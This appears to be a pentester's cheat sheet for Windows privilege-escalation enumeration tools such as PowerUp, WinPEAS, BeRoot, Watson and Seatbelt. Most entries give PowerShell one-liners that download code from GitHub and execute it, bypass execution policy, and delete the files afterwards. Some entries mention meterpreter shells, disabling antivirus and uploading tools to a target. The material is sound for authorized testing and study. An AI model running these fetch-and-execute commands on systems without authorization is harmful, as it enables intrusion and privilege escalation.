








Tools
Tools for common privilege escalation misconfigurations
• PowerUp.ps1 from PowerSploit in the PrivEsc category: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
execute all checks:
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ');Invoke-AllChecks -HTMLReport
OPTIONS:
-HTMLReport → save all results to an HTML file in the actual folder

◇ to load from shell
C:\> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

• WinPEAS: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
Before running, we need to add a registry key and then reopen the command prompt:
Link raw exe(any): https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
Link bat: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
PS> reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1 #then restart the command prompt
PS> .\winPEASany.exe quiet cmd fast #Run all checks while avoiding time consuming searches
PS> .\winPEASany.exe quiet cmd systeminfo #Run specific check categories
PS> .\winPEASany.exe quiet cmd systeminfo #Run specific check categories

To run it from meterpreter
meterpreter> shell
C:\> winPEAS.bat quiet cmd fast
C:\> winPEAS.bat quiet cmd fast

• Privesc.ps1: https://raw.githubusercontent.com/enjoiz/Privesc/master/privesc.ps1
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/enjoiz/Privesc/master/privesc.ps1 ');Invoke-PrivEsc
• BeRoot: https://github.com/AlessandroZ/BeRoot
Available for:
◇ Linux and MacOS in python
◇ Windows in
▪ python
▪ Compiled
Powershell one-line that use the Compiled(.exe) version.We can use it on Powershell 2.0 and newer because use Shell.Application Class
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/AlessandroZ/BeRoot/releases/download/1.0.1/beRoot.zip", "$env:userprofile\desktop\beRoot.zip");$ZippedFilePath = "$env:userprofile\desktop\beRoot.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\beRoot.exe";Remove-Item -Path "$env:userprofile\desktop\beRoot.exe";Remove-Item -Path "$env:userprofile\desktop\beRoot.zip";
• Watson: https://github.com/rasta-mouse/Watson
Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.
Supported Windows Versions
▪ Windows 10 1507, 1511, 1607, 1703, 1709, 1803, 1809, 1903, 1909, 2004
▪ Server 2016 & 2019
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/DenFox93/Compiled-programs/raw/main/Watson.exe", "$env:userprofile\desktop\Watson.exe");Invoke-Expression "$env:userprofile\desktop\Watson.exe";Remove-Item -Path "$env:userprofile\desktop\Watson.exe"
https://github.com/DenFox93/Compiled-programs/raw/main/Watson.exe
How to Compile:
Compile Watson
1) Download the zip file from the Github page
2) Open the SLN file (structure file used for organizing projects) with Microsoft Visual Studio

3) Turn off AV and Compile Watson by clicking on the Start button of Visual Studio

Watson.exe will be created in the folder ..Watson-master\Watson\bin\Debug\
4) Upload Watson.exe on the target machine. Here you can find a compiled version in date 31/01/2021


• Nishang: https://github.com/samratashok/nishang
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-Information.ps1');get-information
Tools that provides informations for further investigations
Tools that does not actively hunt for privilege escalation misconfigurations, but provides related information for further investigation.
• Seatbelt
◇ Code: https://github.com/GhostPack/Seatbelt
◇ Pre-Compiled: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe
PS> .\Seatbelt.exe

• Accesschk: https://download.sysinternals.com/files/AccessChk.zip
You can use it to check whether a user or group has access to files, directories, services, and registry keys.
◇ GUI: more recent versions of the program spawn a GUI “accept EULA” popup window. So we can use them only via GUI
◇ command line: older version of accesschk can be used with the command line, which still has an /accepteula command line option.
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uwdq C:\";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";
in the example above we have executed an Accesschk.exe command to check for write permissions in C:\ but we can use it also for more other things